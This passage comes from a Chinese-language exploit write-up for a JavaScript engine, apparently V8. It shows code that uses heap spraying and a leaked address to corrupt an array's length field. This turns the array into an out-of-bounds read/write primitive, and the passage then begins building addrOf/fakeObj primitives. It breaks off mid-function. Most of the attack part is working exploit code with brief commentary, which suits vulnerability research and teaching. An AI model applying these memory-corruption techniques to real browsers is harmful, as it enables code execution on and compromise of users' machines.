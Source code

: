 ```
```

  
  
这是漏洞利用中唯一缺乏完美稳定性的部分。可以通过更复杂的堆操作技术或寻找其他地址泄露原语来提高其可靠性。至于如何增强这方面，留给感兴趣的读者作为练习吧。  
  
利用我们新获得的地址泄漏，我们现在可以破坏spray2数组的元素大小字段：  
  

```
functiongetSpray2Oob() {
  spray2_length_addr = p.spray2_addr + 0x14;
  print(`spray2_length_addr = 0x${spray2_length_addr.toString(16)}`);

// Try to set the elements.length to a new value. It doesn't update the array.length!
for (let i = 0; i < p.spray.length; i++) {
    p.spray[i] = uint64ToFloat((BigInt(p.token_hash) << 1n) | (BigInt(spray2_length_addr - 6 * 4 - 2) << 32n));
  }
  p.registry.register({}, undefined, p.token);

// Update the length from 10000 to 0x20000
  p.spray2.length = 0x20000;
  print(`spray2.length = 0x${p.spray2.length.toString(16)}`);

// Check if we can OOB read
for (let i = 10100; i < 10400; i++) {
    if (p.spray2[i] !== undefined) {
      returntrue;
    }
  }
returnfalse;
}
```

  
  
这种操作将我们控制的数组转变为强大的越界读写原语，为下一步的利用奠定了基础。  
  
任意读写  
  
至此，得益于数组，我们已经拥有了强大的越界读写能力PACKED_DOUBLE_ELEMENTS spray2。现在我们将实现addrOf()和fakeObj()原语。  
  
首先，让我们喷射第三个数组，这次使用PACKED_ELEMENTS：  
  

```
// An object which will be used for arbitrary read-write
p.spray3 = [{}];
for (let i = 0; i < 100; i++) {
  p.spray3.push(13.37 + 0.1 * i);
}
```

  
  
接下来，我们需要找到它相对于spray2数组的位置：  
  

```
functionlocateSpray3() {
// We have an OOB with spray2. Locate spray3.
// Dump the memory
let spray64 = new BigUint64Array(p.spray2.length);
for (let i = 0; i < 10400; i++) {
    spray64[i] = floatToUint64(p.spray2[i]);
  }

  p.spray3[0] = 1337.42;
let index_changed = -1;

for (let i = 0; i < 10400; i++) {
```